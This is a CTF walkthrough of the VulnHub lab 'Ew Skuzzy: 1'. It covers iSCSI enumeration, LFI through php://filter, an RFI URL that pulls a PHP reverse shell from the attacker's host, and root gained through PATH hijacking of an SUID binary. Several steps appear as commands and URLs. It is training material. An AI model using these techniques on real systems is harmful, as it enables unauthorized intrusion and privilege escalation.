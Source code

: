 ```yaml
---
layout: post
title:  "Ew Skuzzy: 1"
excerpt: CTF by @vortexau
tags: [vulnhub, ctf, walkthrough]
---
```


# Ew Skuzzy: 1

## Goal
flags
uid=0(root) gid=0(root) groups=0(root)

## Download
[https://www.vulnhub.com/entry/ew_skuzzy-1,184/](https://www.vulnhub.com/entry/ew_skuzzy-1,184/)

## Walkthrough
Initial nmap shows ssh on 22, web on 80, and iscsi on 3260
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-nmap-002.png)
<br><br>

Looking at the website we get a hint to scan the website using dirbuster
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-home-001.png)
<br><br>

dirb results
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-dirb-003.png)
<br><br>
*snippet of dirb results

All of the dirb results were junk except the last long URL
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-dirb-004.png)
<br><br>

Looking at the page, oh hello Lionel
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-hello-005.png)
<br><br>

Let's look at the page source and there is a long commented string (actually strings)
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-hellosource-006.png)
<br><br>

Base64 decode and Lionel trolled us
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-hellobase64-007.png)
<br><br>

With nothing else, we go back to see what we can find from the open iscsi port on 3260

Wait, ew skuzzy...iscsi....oh I get it :)

Google is always your friend, which yielded this helpful page
https://www.pentestpartners.com/blog/an-interesting-route-to-domain-admin-iscsi/

After installing iscsi tools I'm able to discover and connect to the target

iscsiadm -m node -p 192.168.0.130 -l iqn.2017-02.local.skuzzy:storage.sys0
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-iscsi-008.png)
<br><br>

fdisk reveals a new disk available at /dev/sdb
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-fdisk-009.png)
<br><br>

First we create the folder to mount to /mnt/skuzzy and then we mount and list the folder contents.  Look at that, flag1 is revealed
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-flag1-010.png)
<br><br>
flag1{c0abc15976b98a478150c900ebb0c86f0327f4dd}

Looking back at the mounted disk contents we see what appears to be another mountable disk called bobsdisk.dsk. Creating the folder, mounting, and listing we find an email file ToAlice.eml and an encrypted file ToAlice.csv.enc
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-bobsdisk-011.png)
<br><br>

Looking at the ToAlice.eml, there's a lot of useful information and some misleading in my opinion about how to decrypt the ToAlice.csv.enc file.  Also flag2 is revealed :)
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-flag2-012.png)
<br><br>
flag2{054738a5066ff56e0a4fc9eda6418478d23d3a7f}

So to decrypt the ToAlice.csv.enc file the email gives you everything you need including the password.  It hints that you need to use RockYou, but the password is right there and with that flag3 is revealed and more URLs

openssl enc -d -aes256 -in /mnt/bob/ToAlice.csv.enc -out /mnt/bob/ToAlice.csv -k supercalifragilisticoespialidoso
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-flag3-013.png)
<br><br>

flag3{2cce194f49c6e423967b7f72316f48c5caf46e84}

Now back to the webs and the URLs we found. First one has some sweet scrolling marquee
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-marquee-014.png)
<br><br>

Source code reveals more long commented strings
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-marqueesource-015.png)
<br><br>


Base64 of strings reveal a Seinfeld troll :P
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-marqueebase64-016.png)
<br><br>


Next URL looks more interesting and states in the title we're on the right track
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-017.png)
<br><br>

Looking at the links, first three are nothing of importance 

welcome.php
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-018.png)
<br><br>

flag.php
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-019.png)
<br><br>

party.php also includes link out to http://cultofthepartyparrot.com
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-020.png)
<br><br>

The last link reader.php has a new link called Load Feed. When clicked it actually calls out to a file located on the local file system named data.txt
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-021.png)
<br><br>

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://127.0.0.1/c2444910794e037ebd8aaf257178c90b/data.txt
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-022.png)
<br><br>

From here it looks like we might be able to do some LFI, so back to Google and we find this helpful site for a reminder :) https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Giving it a try on the data.txt file and we're giving a long string
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-phplfi-023.png)
<br><br>

Base64 on the string reveals the source code and it seems that normal php tags use#php## instead
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-database64-024.png)
<br><br>

With that I started checking all the .php files associated with the links and flag.php revealed flag4 also told that we'll need it later for shell access
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-flag4-025.png)
<br><br>
flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}

Base64 of reader.php was the entire source code, but hints that we need to provide a key
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-reader-026.png)
<br><br>
*snippet of reader.php

Trying RFI to Kali and told that we need a key for authentication 

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://192.168.0.131
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-keyneeded-027.png)
<br><br>

Before anything I prep the php reverse shell on Kali, but making sure that I replace the starting and ending php syntax to#php##
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-phpreverse-028.png)
<br><br>

Using flag4 as the key and calling our php reverse shell we now have a limited reverse shell :)

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&key=flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}&url=http://192.168.0.131/bzyo.php
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-reverseshell-029.png)
<br><br>

Privilege escalation took me some time as I was stuck on finding something with iscsi.  After going through the go to privilege escalation guide, the file alicebackup stood out as the other key files included alice in the name
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-suid-030.png)
<br><br>

Looking closer at the file it's executable so I run it and it runs the command /usr/bin/id and attempts an ssh connection
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-alicebackup-031.png)
<br><br>

Spent some time looking at HOSTALIASES, but that obviously didn't pan out so I took a step back...

I know that alicebackup runs id utility after executed as it prints out that root is running the program. However it's probably not using a full path and relative instead
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-pathid-032.png)
<br><br>

Let's copy /bin/sh to /tmp folder and rename it id and then add /tmp to the PATH
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-newid-033.png)
<br><br>

Running alicebackup now triggers id utility at /tmp folder, but instead of giving the user it spawns a root shell and flag5 is revealed in the root folder :)
<br>![alt text](../2017/Ew_Skuzzy_1/imgs/skuzzy-flag5-34.png)
<br><br>
flag5{42273509a79da5bf49f9d40a10c512dd96d89f6a}
